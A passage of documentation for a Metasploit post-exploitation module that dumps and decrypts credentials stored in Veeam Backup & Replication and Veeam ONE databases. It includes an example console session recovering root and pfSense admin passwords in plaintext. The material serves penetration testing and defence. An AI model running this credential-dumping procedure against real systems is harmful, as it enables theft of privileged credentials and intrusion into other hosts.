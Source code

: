 This should place a CSV export file suitable for use within the module at `veeam_dump.csv`. If using
SQL native auth, replace the `-E` parameter with

`-U "<MSSQL_USER>" -P "<MSSQL_PASS>"`

### Examples

Windows Server 2019 host with Veeam Backup & Recovery and Veeam ONE installed w/SQL SSPI using the
`dump` action:

```
msf exploit(multi/handler) > use windows/gather/credentials/veeam_credential_dump
msf post(windows/gather/credentials/veeam_credential_dump) > set session 1
session => 1
msf post(windows/gather/credentials/veeam_credential_dump) > dump

[*] Hostname VEEAM01 IPv4 192.168.101.39
[*] Veeam Backup & Replication Install Path: C:\Program Files\Veeam\Backup and Replication\Backup
[+] Compressed size: 1336
[*] Veeam Backup & Replication Build 11.0.1.1261
[*] Veeam ONE Monitor Install Path: C:\Program Files\Veeam\Veeam ONE\Veeam ONE Monitor Server
[+] Compressed size: 1268
[*] Veeam ONE Monitor Build 11.0.0.1379
[+] Compressed size: 1336
[*] Get Veeam SQL Parameters ...
[+] SQL Database Connection Configuration:
[+]     Instance Name: VEEAM01\VEEAMSQL2016
[+]     Database Name: VeeamBackup
[+]     Database User: (Windows Integrated)
[!] The database uses Windows authentication
[!] Session identity must have access to the SQL server instance to proceed
[+] SQL Database Connection Configuration:
[+]     Instance Name: VEEAM01\VEEAMSQL2016
[+]     Database Name: VeeamONE
[+]     Database User: (Windows Integrated)
[!] The database uses Windows authentication
[!] Session identity must have access to the SQL server instance to proceed
[*] Performing export of Veeam Backup & Replication SQL database to CSV file
[*] Export Veeam Backup & Replication DB ...
[+] 11 rows exported, 11 unique IDs
[+] Encrypted Veeam Backup & Replication Database Dump: /root/.msf4/loot/20221209091141_default_192.168.101.39_veeam_vbr_enc_871500.txt
[*] Performing export of Veeam ONE Monitor SQL database to CSV file
[*] Export Veeam ONE Monitor DB ...
[+] 1 rows exported, 1 unique IDs
[+] Encrypted Veeam ONE Monitor Database Dump: /root/.msf4/loot/20221209091141_default_192.168.101.39_veeam_vom_enc_278493.txt
[*] Performing decryption of Veeam Backup & Replication SQL database
[+] 11 VBR rows loaded, 11 unique IDs
[*] Process Veeam Backup & Replication DB ...
[+] Compressed size: 1408
[+] Compressed size: 4864
[+] 11 VBR rows processed
[*] 7 rows recovered: 0 plaintext, 7 decrypted (4 blank)
[*] 7 rows written (4 blank rows withheld)
[+] 7 unique VBR ID records recovered
[+] Recovered Credential: Linux root
[+]     L: root
[+]     P: SK!nP0pp3r
[+] Recovered Credential: pfSense admin
[+]     L: admin
[+]     P: Quit2Day!
[+] Recovered Credential: root
[+]     L: root
```